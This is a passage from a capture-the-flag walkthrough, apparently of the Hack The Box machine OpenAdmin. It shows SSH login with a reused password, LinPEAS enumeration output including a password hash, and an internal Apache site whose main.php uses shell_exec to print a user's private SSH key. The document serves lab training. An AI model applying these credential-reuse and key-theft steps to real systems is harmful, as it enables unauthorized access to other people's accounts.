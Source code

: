 			?>
			```
			Password: `n1nj4W4rri0R!`
	3. `jimmy` to `joanna`: `ssh jimmy@10.10.10.171` with password `n1nj4W4rri0R!` successful.
		1. Run LinPEAS again to find the following:
			```
			[+] Interesting GROUP writable files (not in Home)
			[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files
			  Group internal:
			/var/www/internal                                                                                                                                                            
			/var/www/internal/main.php
			/var/www/internal/logout.php
			/var/www/internal/index.php
			[+] Finding 'username' string inside /home /var/www /var/backups /tmp /etc /root /mnt (limit 70)
			/var/www/internal/index.php:                  $_SESSION['username'] = 'jimmy';
			/var/www/internal/linpeas.sh:    for f in $tomcat; do grep "username=" $f 2>/dev/null | grep "password=" | sed "s,.*,${C}[1;31m&${C}[0m,"; done
			/var/www/internal/main.php://session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); }; 

			[+] Looking for md5/sha1/sha256/sha512 hashes inside files (limit 50)
			/var/www/internal/index.php:'00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1'
			```
			
		2. See if the files in this directory are an active site by listing `/etc/apache2/sites-enabled`. `cat internal.conf`:
			```
			Listen 127.0.0.1:52846

			<VirtualHost 127.0.0.1:52846>
			    ServerName internal.openadmin.htb
			    DocumentRoot /var/www/internal
			
			<IfModule mpm_itk_module>
			AssignUserID joanna joanna
			</IfModule>
			
			    ErrorLog ${APACHE_LOG_DIR}/error.log
			    CustomLog ${APACHE_LOG_DIR}/access.log combined
			
			</VirtualHost>
			```
			Result: The site is running on `localhost:52846` as joanna.
		3. Method 1
			1. `cat main.php`
				```
				<?php session_start(); 
				//$_SESSION['username']="joanna";
				if (!isset($_SESSION['username'])) { header("Location: /index.php"); }; 
				# Open Admin Trusted
				# OpenAdmin
				$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
				echo "<pre>$output</pre>";
				?>
				<html>
				<h3>Don't forget your "ninja" password</h3>
				Click here to logout <a href="logout.php" tite = "Logout">Session
				</html>
				```
			2. `cat index.php` includes:
				```